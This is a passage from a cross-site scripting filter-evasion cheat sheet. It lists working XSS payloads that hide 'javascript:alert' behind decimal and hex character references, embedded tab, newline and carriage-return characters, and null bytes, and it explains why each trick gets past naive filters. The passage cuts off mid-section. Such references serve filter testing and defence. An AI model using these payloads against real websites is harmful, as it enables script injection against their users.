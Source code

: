 ```js
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
```

## Hexadecimal HTML Character References Without Trailing Semicolons
This is also a viable XSS attack against the above string `$tmp_string=~ s/.*\&#(\d+);.*/$1/;` which assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters).

```js
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```

## Embedded Tab
Used to break up the cross site scripting attack:

```js
<IMG SRC="javascript:alert('XSS');">
```

## Embedded Encoded Tab
Use this one to break up XSS :

```js
<IMG SRC="jav&#x09;ascript:alert('XSS');">
```

## Embedded Newline to Break-up XSS
Some websites claim that any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. See the ascii chart for more details. The following four XSS examples illustrate this vector:

```js
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
```

## Embedded Carriage Return to Break-up XSS
(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I’ve seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):

```js
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```

## Null breaks up JavaScript Directive
Null chars also work as XSS vectors but not like above, you need to inject them
- directly using something like Burp Proxy
- use `%00` in the URL string
- write your own injection tool you can either use vim (`^V^@` will produce a null) or the following program to generate it into a text file.
- older versions of Opera (circa 7.11 on Windows) were vulnerable to one additional char 173 (the soft hypen control char).
- But the null char `%00` is much more useful and helped to bypass certain real world filters with a variation on this example:
